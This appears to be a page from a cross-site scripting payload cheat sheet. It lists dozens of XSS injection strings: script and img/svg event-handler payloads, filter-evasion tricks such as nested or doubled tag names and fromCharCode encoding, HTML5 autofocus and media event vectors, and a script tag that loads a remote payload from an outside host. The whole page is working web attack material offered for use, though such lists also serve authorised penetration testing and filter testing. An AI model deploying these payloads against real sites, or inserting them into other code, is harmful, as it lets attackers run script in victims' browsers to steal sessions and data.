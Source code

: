 ## XSS in HTML/Applications

XSS Basic

```javascript
Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
```

XSS for HTML5

```javascript
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
```

XSS using script tag (external payload)

```javascript
<script src=14.rs>
you can also specify an arbitratry payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```
